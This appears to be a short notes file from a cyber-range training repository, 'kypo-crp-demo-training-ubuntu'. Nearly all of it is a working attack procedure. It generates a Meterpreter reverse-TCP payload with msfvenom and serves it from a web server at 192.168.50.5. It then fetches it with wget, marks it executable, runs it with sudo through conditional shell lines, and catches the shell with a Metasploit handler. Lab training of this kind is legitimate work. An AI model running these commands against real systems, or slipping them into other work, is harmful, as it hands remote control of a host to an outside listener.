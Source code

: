 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

(Stageless payload)

sudo msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.50.5 LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

sudo service apache2 start

---

wget http://192.168.50.5/shell-x64.elf

chmod +x shell-x64.elf

---

if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi

---

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 192.168.50.5

exploit

---

if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi
